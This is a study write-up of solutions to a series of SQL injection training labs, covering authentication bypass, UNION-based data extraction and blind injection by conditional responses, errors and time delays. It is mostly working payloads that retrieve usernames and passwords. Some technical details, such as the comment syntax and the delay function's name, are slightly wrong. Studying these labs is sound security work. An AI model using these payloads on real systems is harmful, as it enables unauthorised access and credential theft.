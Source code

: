 # SQLi

## LAB 1 -- Retrieving hidden data

find vulnerable part by adding **_'_** which will accure error in the server
example: SELECT _ FROM product where category = '$cat_name'
error: SELECT _ FROM product where category = 'pets''
to avoid the error you need to comment all the next words by adding -- in oracle and # in microsoft
**SOLUTION :** '+or+1=1

---

## LAB 2 -- Subverting application logic

after finding vuln part we can use it for multiple reasons like bypassing login
this is the authentication logic: SELECT \* FROM users WHERE username = '$user' AND password = '$pass'

after setting $user = administrator'--
will select only administrator username and comment the next logic
**SOLUTION:** administrator'--

---

## LAB 3 -- Determining the number of columns required in a SQL injection UNION attack

with UNION you get data from other tables and display it

1. so first let's start with ' order by num -- with this payload you can check how many columns are there by inserting number from 1 until the error accured (**The ORDER BY position number 3 is out of range of the number of items in the select list.**)
2. or you can use 'union select null,null... until you found the right number of columns which the data will be displayed wothout any errors
   **SOLUTION:** '+UNION+SELECT+NULL,NULL--

---

## LAB 4 -- Finding columns with a useful data type in a SQL injection UNION attack

then you need to know the type of the column int or str by replacing null with random values like this :
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
**SOLUTION:** '+UNION+SELECT+null,'qJRR0O',NULL--

---

## LAB 5 -- Using a SQL injection UNION attack to retrieve interesting data

in this lab will you need to use union attack to retrieve the username and the password
after finding how many columns are available and there types you can use the str columns to get username and password
**SOLUTION:** '+UNION+SELECT+username,+password+FROM+users--

---

## LAB 6 -- Retrieving multiple values within a single column

in this lab you will find just one str column but you need to get the username & pass
you retrieve them in single column using the following payload
**SOLUTION:** ' UNION SELECT username || '~' || password FROM users--

---

## LAB 7 -- Querying the database type and version

**ORACLE SOLUTION:** '+UNION+SELECT+BANNER,+NULL+FROM+v$version--
**MICROSOFT SOLUTION:** '+UNION+SELECT+@@version,+NULL#

---

## LAB 8 -- Listing the contents of the database

now we need to get all content of the database notice that we will use **information_schema.tables** to get all tables and **information_scheme.columns** to get the columns of the tbales

**SOLUTION:**

1. you need to get all tables using this payload **'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--**

2. you need to get all the columns of the table with this payload:
   **'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--**
3. get the username and the pass of the admin with the following payload: **'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--**

---

## LAB 9 -- SQL injection attack, listing the database contents on Oracle

**SOLUTION:**

1. you need to get all tables using this payload **'+UNION+SELECT+table_name,+NULL+FROM+all_tables--**

2. you need to get all the columns of the table with this payload:
   **'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name='users_abcdef'--**
3. get the username and the pass of the admin with the following payload: **'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--**

---

## LAB 10 -- Exploiting blind SQL injection by triggering conditional responses:

1. check if username administrator exist:
   trackingID' and (select username from users where username = 'administrator') = 'administrator' --
   "welcome back!" returned, username exist

2. enumerate the length of the password:
   send the request to the repeater and try:

   - trackingID' and (select username from users where username = 'administrator' and LENGTH(password)> 1) = 'administrator'-- ===> welcome back returned so the length of the password is > 1 ofc

   trackingID' and (select username from users where username = 'administrator' and LENGTH(password)> 30) = 'administrator'-- ===> welcome back not returned so the length of the password is less then 30

   after send the request to the intreducer and add the params start the and find the right length

3. enumerate the password using cluster bomb attack:
   after sending the request to the intruder and use brut forcer:

   ' and (select substring(password,$1$,1) from users where username = 'administrator') = '$a$' --

---

## LAB 11 -- Blind SQL injection with conditional errors:

1. first let's inject sql code that cause an error and see if the website is vulnerable using this code:

   trackingID' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
   noticed that you will recieve internal error

2. let's check if 'administrator' user is there:

   '||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
   if the user exist the condition will be executed otherwise it'll not

3. password length enumuration:

   '||(SELECT CASE WHEN LENGTH(password)=$1$ THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
   when the right length found an error will accured

4. password enumuration:

   '||(SELECT+CASE+WHEN+SUBSTR(password,13,1)%3d'w'+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'

---

## LAB 12 -- Blind SQL injection with time delays

1. in this lab sql errors are cathes so we can't get any indices by causing errors, here where time delays comes inject code who effect response time like this code

   pg_delay(10)

here the server waits for 10 seconds before sending a response

# LAB 13 -- Blind SQL injection with time delays and information retrieval

do the same steps in lab 11 and instead of causing errors add pg_delay(10)
